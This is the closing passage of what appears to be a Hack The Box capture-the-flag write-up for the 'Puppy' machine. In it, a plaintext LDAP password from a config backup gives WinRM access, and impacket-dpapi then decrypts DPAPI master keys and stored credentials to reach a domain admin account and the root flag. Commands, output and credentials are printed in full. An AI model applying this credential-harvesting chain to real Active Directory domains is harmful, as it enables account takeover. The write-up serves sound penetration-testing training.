                                                                                                                                                                                                                                              
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Puppy/puppy]
└─# cat nms-auth-config.xml.bak 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>

```

Nice let's see what can he do in bloodhound then?



he can also WINRM to the machine, he is active in AD and seems like there is another domain user that is admin but its is not actually sharing the same password fuck!



Now seems like cooper has some B64 encoded data on his desktop?

```
*Evil-WinRM* PS C:\Users\steph.cooper\Desktop> ls


    Directory: C:\Users\steph.cooper\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/18/2025   1:48 AM           1110 blob.b64
-a----         5/18/2025   2:01 AM            990 masterkey.b64
-a----          3/8/2025   7:40 AM           2312 Microsoft Edge.lnk


```

I do wonder if it is a leftover from another user? I mean those a clearly some DPAPI keys?

```powershell
*Evil-WinRM* PS C:\Users\steph.cooper\Desktop> cat blob.b64
AQAAAJIBAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAAEiRqVXUSz0y3IeagtPkEBwAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAIABEAGEAdABhAA0ACgAAAANmAADAAAAAEAAAAHEb7RgOmv+9Na4Okf93s5UAAAAABIAAAKAAAAAQAAAACtD/ejPwVzLZOMdWJSHNcNAAAAAxXrMDYlY3P7k8AxWLBmmyKBrAVVGhfnfVrkzLQu2ABNeu0R62bEFJ0CdfcBONlj8Jg2mtcVXXWuYPSiVDse/sOudQSf3ZGmYhCz21A8c6JCGLjWuS78fQnyLW5RVLLzZp2+6gEcSU1EsxFdHCp9cT1fHIHl0cXbIvGtfUdeIcxPq/nN5PY8TR3T8i7rw1h5fEzlCX7IFzIu0avyGPnrIDNgButIkHWX+xjrzWKXGEiGrMkbgiRvfdwFxb/XrET9Op8oGxLkI6Mr8QmFZbjS41FAAAADqxkFzw7vbQSYX1LftJiaf2waSc
*Evil-WinRM* PS C:\Users\steph.cooper\Desktop> cat masterkey.b64
AgAAAAAAAAAAAAAANQA1ADYAYQAyADQAMQAyAC0AMQAyADcANQAtADQAYwBjAGYALQBiADcAMgAxAC0AZQA2AGEAMABiADQAZgA5ADAANAAwADcAAABqVXUSz0wAAAAAiAAAAAAAAABoAAAAAAAAAAAAAAAAAAAAdAEAAAAAAAACAAAAsj8xITRBgEgAZOArghULmlBGAAAJgAAAA2YAAPtTG5NorNzxhcfx4/jYgxj+JK0HBHMu8jL7YmpQvLiX7P3r8JgmUe6u9jRlDDjMOHDoZvKzrgIlOUbC0tm4g/4fwFIfMWBq0/fLkFUoEUWvl1/BQlIKAYfIoVXIhNRtc+KnqjXV7w+BAgAAAIIHeThOAhE+Lw/NTnPdszJQRgAACYAAAANmAAAnsQrcWYkrgMd0xLdAjCF9uEuKC2mzsDC0a8AOxgQxR93gmJxhUmVWDQ3j7+LCRX6JWd1L/NlzkmxDehild6MtoO3nd90f5dACAAAAAAEAAFgAAADzFsU+FoA2QrrPuakOpQmSSMbe5Djd8l+4J8uoHSit4+e1BHJIbO28uwtyRxl2Q7tk6e/jjlqROSxDoQUHc37jjVtn4SVdouDfm52kzZT2VheO6A0DqjDlEB19Qbzn9BTpGG4y7P8GuGyN81sbNoLN84yWe1mA15CSZPHx8frov6YwdLQEg7H8vyv9ZieGhBRwvpvp4gTur0SWGamc7WN590w8Vp98J1n3t3TF8H2otXCjnpM9m6exMiTfWpTWfN9FFiL2aC7Gzr/FamzlMQ5E5QAnk63b2T/dMJnp5oIU8cDPq+RCVRSxcdAgUOAZMxPs9Cc7BUD+ERVTMUi/Jp7MlVgK1cIeipAl/gZz5asyOJnbThLa2ylLAf0vaWZGPFQWaIRfc8ni2iVkUlgCO7bI9YDIwDyTGQw0Yz/vRE/EJvtB4bCJdW+Ecnk8TUbok3SGQoExL3I5Tm2a/F6/oscc9YlciWKEmqQ=

```

Now we must first download and decrypt the masterkey hash used to encrypt the DPAPI secrets, it also requirres knowing the user password and the local user's SID.

```bash
impacket-dpapi masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -password 'ChefSteph2025!' -sid 'S-1-5-21-1487982659-1829050783-2281216199-1107'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

And lastly this can be used to decrypt the secret files.

```
└─# impacket-dpapi credential -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key '0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84' 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!

```

Nice another user harvested, this time from the DPAPI secrets, commonly used by WIndows API to encrypt secrets.



This last account is part of the DA's which allows us to do whatever we want't like DCSync but in our case we want only to obtain the flag under Administrator's desktop folder so we can defeat this challenge!

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---         5/17/2025  10:23 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
puppy\steph.cooper_adm
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
11e914731b374793213ba80774480270
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 

```
